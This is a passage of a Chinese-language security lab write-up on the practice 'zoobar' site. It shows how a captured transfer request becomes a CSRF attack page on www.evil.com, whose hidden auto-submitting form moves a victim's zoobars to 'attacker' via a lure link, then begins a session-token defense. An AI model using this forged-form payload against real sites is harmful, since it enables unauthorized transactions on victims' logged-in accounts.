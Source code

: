 我们首先看看转账过程发生了什么，通过浏览器抓包，可以看到点击send后发生了什么

![image.png-439.6kB][5]

可以看到发送了一个POST请求，点开

![image.png-183.7kB][6]

可以看到在请求头中带有cookie，这个是登陆之后浏览器自动带上的，只要用户的cookie还有效，就不需要我们操心

![image.png-91.5kB][7]

而关键就是这三个参数，将这三个参数和值提交给www.myzoo.com/transfer.php即完成了一次转账，那么我们就可以写一个攻击页面www.evil.com，内容为

```
<form method=POST name=transferform
  action="http://www.myzoo.com/transfer.php" id="form">
<input name=zoobars type=hidden value="2">
<input name=recipient type=hidden value="attacker">
<input type=hidden name=submission value="Send">
</form>

<script>
  alert("congrats!your zoobars have been stolen!");
  var form = document.getElementById('form');
  form.submit();
</script>
```

同时，将attacker的profile更改为

```
<a href="http://www.evil.com" target="view_window">clickit</a>
```

那么普通用户查看attacker时，就会看到以下界面

![image.png-400.5kB][8]

profile里面是一个链接，只要用户好奇点击以下，就会转2个zoobar给attacker

![image.png-50.8kB][9]

![image.png-398.5kB][10]

###简单的CSRF防护
防护CSRF的方法很多，可以使用验证码，可以验证referer网站，也可以在用户登陆网站时生成一个随机的token，在后续提交表单的时候也提交这个随机的token。

这里使用token验证防护CSRF

注意，这里的token是一个全局变量，也就是不管用户访问该网站的哪个页面，只要用户保持登陆状态，这个token都必须是一样的，实现的方法就是开启一个会话（session）

在每个php文件的开头添加如下，就可以使所有页面处于一个会话状态之下，共享一个全局变量`$_SESSION`
```
<?php session_start(); ?>
```


  [1]: http://static.zybuluo.com/windmelon/wb811isbgudgxpwq3gql295l/image.png
  [2]: http://static.zybuluo.com/windmelon/wyx5ihu7231uhd2z4zen96v0/image.png
  [3]: http://static.zybuluo.com/windmelon/459nrgijj9fcfe1mnwmocwaz/image.png
  [4]: http://static.zybuluo.com/windmelon/4apbtvxowy8byf2r8sy00vwc/image.png
  [5]: http://static.zybuluo.com/windmelon/zhv22vh8kiee315pynnekpay/image.png
  [6]: http://static.zybuluo.com/windmelon/oyxu17g61e73obkuqpicdt5s/image.png
  [7]: http://static.zybuluo.com/windmelon/zueizan9qwib440o3u7e65r1/image.png
  [8]: http://static.zybuluo.com/windmelon/yuz8tlyumpk4iley96kh2zat/image.png
  [9]: http://static.zybuluo.com/windmelon/4sl9akwn8wkif8saiz18ych2/image.png
  [10]: http://static.zybuluo.com/windmelon/an7u931j8d3k2kloew2dqx4s/image.png
  [11]: http://static.zybuluo.com/windmelon/cm5fhx4rqefxyqgf9bf54mye/image.png
  [12]: http://static.zybuluo.com/windmelon/onasvozrwzjeke0v79ou4gf6/image.png
  [13]: http://static.zybuluo.com/windmelon/f2p365lanf3o5z0m81oissef/image.png
  [14]: http://static.zybuluo.com/windmelon/td0ujhhpj98huuavszqte7af/image.png
  [15]: http://static.zybuluo.com/windmelon/e2i42q655dvysq1vzib6db4o/image.png
  [16]: http://static.zybuluo.com/windmelon/oh1qedj7ib0l4zassgjw3egx/image.png
  [17]: http://static.zybuluo.com/windmelon/uztoeycovas7djn70ufmnxv6/image.png
  [18]: http://static.zybuluo.com/windmelon/1ukhzrrze1yfio0jr0dfecot/image.png
  [19]: http://static.zybuluo.com/windmelon/hq9z9c0vqadofbneknehndmu/image.png
  [20]: http://static.zybuluo.com/windmelon/4xzlyz6fwizmhi5cwruwj0fy/image.png
  [21]: http://static.zybuluo.com/windmelon/82u2r6moargordan63iegyl4/image.png
  [22]: http://static.zybuluo.com/windmelon/u1v3flj7eqqdtuadwdggo3b7/image.png
  [23]: http://static.zybuluo.com/windmelon/7zqenr92vyowh26fhqrgn4oi/image.png
  [24]: http://static.zybuluo.com/windmelon/7pg51wksqvjvf8abqrfsrgk7/image.png
  [25]: http://static.zybuluo.com/windmelon/k0r0eu13ls0ig234fwn3tsnj/image.png